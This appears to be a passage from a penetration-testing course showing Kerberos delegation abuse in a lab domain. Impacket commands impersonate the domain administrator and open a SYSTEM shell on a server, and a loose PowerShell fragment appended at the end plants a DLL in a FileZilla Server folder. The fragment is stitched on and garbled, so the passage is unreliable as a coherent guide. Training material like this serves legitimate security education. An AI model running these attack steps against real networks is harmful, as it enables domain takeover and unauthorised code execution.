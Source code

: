 We'll use _impacket-getST_, target an SPN, and attempt to impersonate a user. At this point, we can impersonate any user of our choosing in the domain. We'll use the CIFS SPN and impersonate the administrator user by sending the request with our own _myComputer_ object.

```
kali@kali:~$ impacket-getST -spn cifs/backup01.corp.com -impersonate administrator 'corp.com/myComputer$:h4x'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

> Listing 24 - Impersonating the domain administrator user using Impacket

With the **administrator.ccache** ticket stored in Kali, we'll add it to the _KRB5CCNAME_ variable, making the ticket usable for Kerberos services.

At this point, we have CIFS access in the context of the administrator domain admin user account. We can use our CIFS access to obtain code execution on _BACKUP01_, but in the process, we will perform a network login instead of an interactive login. This means our access will be limited to _BACKUP01_ and cannot directly be used to expand access toward the rest of the domain.

Since we have read/write access, we'll use **impacket-psexec** with the **-k** switch to make sure we use our newly-obtained Kerberos ticket.

```
kali@kali:~$ impacket-psexec administrator@backup01.corp.com -k -no-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on backup01.corp.com.....
[*] Found writable share ADMIN$
[*] Uploading file HXpIcGxo.exe
[*] Opening SVCManager on backup01.corp.com.....
[*] Creating service GObA on backup01.corp.com.....
[*] Starting service GObA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.1726]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> hostname
BACKUP01

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```

> Listing 25 - Code execution as SYSTEM on BACKUP01


[files02]: PS>
[files02]: PS>whoami
[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
[files02]: PS>Get-Command
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"